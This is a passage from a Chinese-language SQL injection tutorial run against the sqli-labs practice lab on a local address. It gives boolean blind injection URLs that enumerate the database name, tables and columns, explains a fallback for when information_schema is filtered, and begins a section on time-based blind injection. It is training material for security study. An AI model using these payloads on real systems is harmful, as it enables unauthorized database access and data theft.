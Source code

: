 ```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(right(database(),3)) > 100 --+
```

### 9.2 爆表

判断数据表的个数

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

> 数据表为 4 个

当 `information_schema` 被过滤时使用 `sys.schema`

> 在 `mysql 5.7` 中新增了 `sys.schema` 基础数据来自于 `performance_chema` 和 `information_schema` 两个库，本身数据库不存储数据

判断第一个数据表的长度

```
?id=1' and （select length(table_name）from information_schema.tables where table_schema=database() limit 0,1)=1 --+
```



### 9.3 爆字段

判断字段的个数

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users')=3 --+
```

> 字段为 3 个

当 `information_schema` 被过滤时使用 `sys.schema`

> 在 `mysql 5.7` 中新增了 `sys.schema` 基础数据来自于 `performance_chema` 和 `information_schema` 两个库，本身数据库不存储数据

### 9.4 拖库

## 10 时间盲注

当反馈信息没有区别时，可以根据响应时间进行注入

> http://192.168.1.76/sqli-labs/Less-8/

### 10.1 判断是否存在 SQL 注入

尝试传递特殊字符 `` `

```
http://192.168.1.76/sqli-labs/Less-8/?id=1'
```

> 当传递 `'` 时报错，说明符号被注入，存在 SQL 注入
>
> 但是没有回显
